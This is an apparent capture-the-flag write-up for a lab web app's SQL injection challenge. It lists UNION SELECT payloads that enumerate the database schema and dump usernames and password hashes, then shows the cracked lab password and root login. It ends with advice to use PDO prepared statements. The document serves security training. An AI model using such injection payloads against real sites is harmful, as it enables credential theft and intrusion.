 # SQL Admin Connection

`B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2`

---

## Description

go to `/?page=member`

submit : 
- `1 AND 1=2 UNION SELECT column_name , 1 FROM information_schema.columns`
- `1 AND 1=2 UNION SELECT table_name , 1 FROM information_schema.columns `
- `1 AND 1=2 UNION SELECT table_schema, 1 FROM information_schema.tables`

then : \
`1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default`

password = 3bf1114a986ba87ed28fc1b5884fc2f8  =>  "shadow"

then go to `/index.php?page=signin`

login :	`root`\
mdp :	`shadow`

---

## How to prevent it ?

In the case of a php back-end, use PDO :
- The query will be sanitized with the `prepare` statement
- It will then be executed with the `execute` statement once the risk of an undesired effect is avoided

Here is a more detailed explanation found on SO regarding the `prepare` command :

>"The SQL statement you pass to prepare is parsed and compiled by the database server. By specifying parameters (either a ? or a named parameter like :name in the example above) you tell the database engine where you want to filter on. Then when you call execute, the prepared statement is combined with the parameter values you specify.

>The important thing here is that the parameter values are combined with the compiled statement, not an SQL string. SQL injection works by tricking the script into including malicious strings when it creates SQL to send to the database. So by sending the actual SQL separately from the parameters, you limit the risk of ending up with something you didn't intend."